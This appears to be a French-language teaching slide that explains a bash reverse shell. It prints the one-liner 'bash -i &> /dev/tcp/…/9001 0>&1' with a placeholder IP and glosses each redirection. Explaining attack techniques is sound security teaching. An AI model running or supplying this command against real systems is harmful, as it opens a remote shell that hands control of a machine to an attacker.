

# Reverse Shell
Explication

bash -i &> /dev/tcp/xxx.xxx.xxx.xxx/9001 0>&1

Le shell est interactif
Le descripteur 0 (stdin) est dupliqué vers le descripteur 1 (stdout)
Redirige les sorties (stdout et stderr) vers l’adresse IP xxx.xxx.xxx.xxx sur le port 9001